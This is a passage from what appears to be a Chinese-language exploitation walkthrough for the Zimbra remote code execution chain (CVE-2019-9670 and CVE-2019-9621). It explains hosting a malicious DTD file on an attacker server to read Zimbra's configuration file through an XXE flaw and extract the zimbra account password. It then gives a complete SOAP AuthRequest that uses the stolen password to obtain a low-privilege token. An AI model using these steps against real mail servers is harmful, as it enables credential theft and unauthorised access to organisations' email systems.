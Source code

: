 ![](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId27.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

    POST /service/soap HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 467  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAccount">  
            <account by="adminName">zimbra</account>  
            <password>上面得到的密码</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>
